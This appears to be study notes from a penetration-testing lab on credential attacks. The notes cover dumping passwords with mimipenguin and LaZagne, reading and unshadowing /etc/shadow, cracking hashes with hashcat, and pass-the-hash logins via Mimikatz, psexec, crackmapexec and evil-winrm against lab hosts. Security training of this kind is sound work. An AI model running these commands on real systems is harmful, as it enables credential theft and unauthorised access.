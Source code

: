 ```shell-session
sudo python3 mimipenguin.py
```

This tool seraches memory for passwords needs root though

```shell-session
sudo python2.7 laZagne.py all/browsers
```

# Passwd, Shadow & Opasswd

```shell-session
sudo cat /etc/security/opasswd
```

Contains old passwords can be used to make a wordlist

```shell-session
cp /etc/passwd /tmp/passwd.bak 
cp /etc/shadow /tmp/shadow.bak 
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```

```shell-session
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

For this challenge there was a shadow backup file.

# Pass the Hash (PtH)

Windows NTLM - Passwords are not salted so PtH is possible

Mimikatz

```cmd-session
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

```
sekurlsa::logonpasswords
```

Linux PtH

```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

```shell-session
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

```shell-session
evil-winrm -i 10.129.38.61 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

RDP
